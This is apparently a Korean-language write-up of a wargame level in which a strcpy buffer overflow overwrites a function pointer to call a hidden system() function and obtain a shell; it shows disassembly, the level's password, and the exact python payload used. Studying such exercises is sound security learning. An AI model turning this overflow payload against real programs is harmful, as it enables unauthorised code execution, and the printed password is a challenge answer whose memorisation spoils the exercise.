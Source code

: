 > Password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

strcpy의 buffer overflow를 이용해서 잘못된 함수 포인터를 넣을 수 있다.

어셈블리 코드를 확인하면 argv[1]을 strcpy를 사용해서 스택에 있는 지역 변수에 복사하는 것을 볼 수 있다.

```
 80484b0:	8b 45 0c             	mov    0xc(%ebp),%eax
 80484b3:	83 c0 04             	add    $0x4,%eax
 80484b6:	8b 00                	mov    (%eax),%eax
 80484b8:	89 c2                	mov    %eax,%edx
 80484ba:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 80484be:	89 54 24 04          	mov    %edx,0x4(%esp)
 80484c2:	89 04 24             	mov    %eax,(%esp)
 80484c5:	e8 76 fe ff ff       	call   8048340 <strcpy@plt>
```

strcpy도 gets와 마찬가지로 버퍼의 크기를 확인하지 않는다는 점을 이용해서, ebp + 4 위치를 원하는 위치로 덮어쓸 수 있다.

프로그램에 쓰지 않는 shell을 얻을 수 있는 함수가 있는데, 이 함수의 주소를 strcpy로 덮어씌우면 된다.

08048454 <n>:
 8048454:	55                   	push   %ebp
 8048455:	89 e5                	mov    %esp,%ebp
 8048457:	83 ec 18             	sub    $0x18,%esp
 804845a:	c7 04 24 b0 85 04 08 	movl   $0x80485b0,(%esp)
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
 8048466:	c9                   	leave  
 8048467:	c3                   	ret 


```bash
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08",')
```